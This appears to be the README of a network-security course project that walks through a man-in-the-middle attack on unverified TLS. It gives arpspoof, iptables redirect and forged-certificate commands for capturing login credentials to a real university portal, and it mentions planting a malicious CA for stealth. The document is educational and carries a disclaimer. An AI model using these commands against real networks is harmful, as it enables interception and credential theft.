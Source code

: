 # Man-in-the-Middle Attack on Unverified TLS Connections

This is a demonstration project showing the potential damage of unverified TLS connections. The attack is accomplished by ARP spoofing and a simple man-in-the-middle HTTPS server. In this demo, all HTTPS traffic between the victim machine and 140.113/16 held by NYCU is intercepted and redirected to the man-in-the-middle server. The goal is to sniff the inputted ID and password to log into [portal.nycu.edu.tw](https://portal.nycu.edu.tw).

# Prerequisites

- At least one victim machine with Google Chrome installed
- One attack machine with Python 3.8 or later and `dsniff` installed (for `arpspoof`)
- These machines should be able to ping each other within a LAN
- It is recommended to use virtual machines

# Steps

## Attack Machine

### Enable IP forwarding to allow traffic to go through the attack machine

```bash
sudo sysctl -w net.ipv4.ip_forward=1
```

### Perform ARP spoofing on the victim machine and the gateway

If the attack is successful, the man-in-the-middle scenario holds. The interface name and the gateway IP can be found with `route -n`. The victim IP can be found through IP scanning within the LAN or just by opening a terminal on the victim machine and executing `ifconfig`. Note that at this step, all HTTPS traffic between the victim and servers within 140.113/16 is protected via TLS. To be able to get the plaintext HTTP message, the man-in-the-middle server should pretend to be the real server to the victim and establish the TLS connection with the victim.

```bash
sudo arpspoof -i <interface name> -c both -t <victim IP> -r <gateway IP>
```

### Set the NAT table

Open a new terminal for the following commands. Clear the NAT table of the `iptables` firewall and add a new rule to redirect HTTPS packets to 140.113/16 to this machine on port 8080. The man-in-the-middle server will listen on that port. At this step, the browser will show "This site can't be reached" for all HTTPS connections to 140.113/16 on the victim machine.

```bash
sudo iptables -t nat -F && \
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -m iprange \
  --dst-range 140.113.0.0-140.113.255.255 -j REDIRECT --to-port 8080
```

### Generate self-signed certificate

Generate a forged self-signed certificate for \*.nycu.edu.tw. It is used to establish the TLS connection between the victim and the man-in-the-middle server. Since the victim is assumed not to verify the legality of the certificate, using the generated certificate is fine. If the attacker has access to the victim machine, a malicious CA certificate can be installed so that all certificates signed by that CA certificate can pass the TLS verification, which allows the attack to be more covert.

```bash
openssl req -new -newkey rsa:4096 -days 30 -nodes -x509 \
  -subj "/C=TW/ST=Taiwan/L=Middle/O=Man/CN=*.nycu.edu.tw" -keyout host.key -out host.crt
```

### Run the man-in-the-middle server

The generated certificate files are assumed to be in the same location as the attack script.

```bash
sudo ./attack.py [ <interface name> ]
```

## Victim Machine

### Browse the web

Open several web pages. If the man-in-the-middle server is up, the plaintext ID and password will be shown on the attack machine every time the login request is sent.

```bash
google-chrome -incognito --ignore-certificate-errors --user-data-dir=/tmp/chrome_dev \
  "portal.nycu.edu.tw" "cs.nycu.edu.tw" "ccs.nycu.edu.tw" "eecsigp.nycu.edu.tw" \
  "dpeecs.nycu.edu.tw" "it.nycu.edu.tw" "aa.nycu.edu.tw" "timetable.nycu.edu.tw" \
  "nems.cs.nycu.edu.tw" "ocw.nycu.edu.tw"
```

# Disclaimer

The content provided in this repository is for educational purposes only. Launching such an attack on another person without consent is against the law. The script `attack.py` is part of a course project in Network Security at NYCU CS. Do not plagiarize the script if you are a student doing similar coursework.
